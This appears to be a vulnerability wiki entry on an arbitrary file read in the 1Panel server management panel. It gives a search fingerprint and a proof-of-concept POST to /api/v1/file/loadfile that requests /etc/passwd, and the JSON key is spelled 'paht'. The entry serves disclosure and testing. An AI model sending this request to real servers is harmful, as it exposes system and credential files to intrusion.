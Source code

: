 # 1Panel loadfile background file reading vulnerability

## Vulnerability Description

1There is arbitrary file reading vulnerability in the Panel background. The attacker can obtain sensitive information files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">1Panel</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"1Panel"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691724157871-153c523f-4eb1-4145-8c90-b4e7608d792c.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691724195121-1bffe5bb-9161-4087-a15d-68fb29a44fe0.png)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691724202417-adf0c19b-38a8-4549-95b1-66231a19234f.png)

Verify POC

```php
POST /api/v1/file/loadfile

{"paht":"/etc/passwd"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1691724120824-b3faa665-32bc-45f7-a1ad-232aac1a61c0.png)